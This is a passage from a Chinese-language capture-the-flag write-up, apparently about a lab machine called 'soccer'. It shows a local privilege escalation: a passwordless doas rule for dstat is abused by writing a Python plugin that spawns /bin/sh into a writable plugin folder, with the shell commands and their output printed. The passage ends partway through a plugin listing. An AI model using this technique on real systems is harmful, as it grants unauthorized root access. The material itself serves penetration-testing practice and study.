     ```

+ `doas`目前可以以`root`身份去运行`/usr/bin/dstat`命令而不需要密码

+ 通过查看[gtfobins-dstat](https://gtfobins.github.io/gtfobins/dstat/) 可知，

    ![](/style/image/2024-02-08-21-05-18.png)
    
    ```
    player@soccer:~$ echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_xxx.py
    player@soccer:~$ ls -al /usr/local/share/dstat/
    total 12
    drwxrwx--- 2 root   player 4096 Feb  8 13:30 .
    drwxr-xr-x 6 root   root   4096 Nov 17  2022 ..
    -rw-rw-r-- 1 player player   39 Feb  8 13:30 dstat_xxx.py
    player@soccer:~$ doas /usr/bin/dstat --list
    internal:
        aio,cpu,cpu-adv,cpu-use,cpu24,disk,disk24,disk24-old,epoch,fs,int,int24,io,ipc,load,lock,mem,mem-adv,net,page,page24,
        proc,raw,socket,swap,swap-old,sys,tcp,time,udp,unix,vm,vm-adv,zones
    /usr/share/dstat:
        battery,battery-remain,condor-queue,cpufreq,dbus,disk-avgqu,disk-avgrq,disk-svctm,disk-tps,disk-util,disk-wait,dstat,
        dstat-cpu,dstat-ctxt,dstat-mem,fan,freespace,fuse,gpfs,gpfs-ops,helloworld,ib,innodb-buffer,innodb-io,innodb-ops,jvm-full,
        jvm-vm,lustre,md-status,memcache-hits,mongodb-conn,mongodb-mem,mongodb-opcount,mongodb-queue,mongodb-stats,mysql-io,mysql-keys,
        mysql5-cmds,mysql5-conn,mysql5-innodb,mysql5-innodb-basic,mysql5-innodb-extra,mysql5-io,mysql5-keys,net-packets,nfs3,nfs3-ops,